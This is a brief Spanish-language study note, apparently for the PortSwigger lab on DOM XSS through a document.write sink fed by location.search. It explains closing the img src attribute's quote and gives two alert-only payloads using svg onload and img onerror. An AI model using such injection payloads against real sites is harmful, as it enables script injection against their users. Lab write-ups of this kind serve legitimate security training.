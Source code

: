 Tags: #XSS #PortSwigger 
# Lab 3 DOM XSS in document.write sink using source location.search

```javaScript
// Para este tipo de ataque, debemos de buscar la manera de poder inyectar codigo JavaScript

1. Mirar el codigo fuente en donde estamos colocando texto, esto en 'img src=" ">'
2. Ver la manera de poder cerrar alguna comilla para poder inyectar codigo JavaScript

"><svg/onload=alert(1)>
"><img src/onerror=alert(document.domain)>

// Podemos hacerlo de cualquiera de las dos formas anteriores, solo debemos de cerrar la etiqueta del codigo fuente 
```
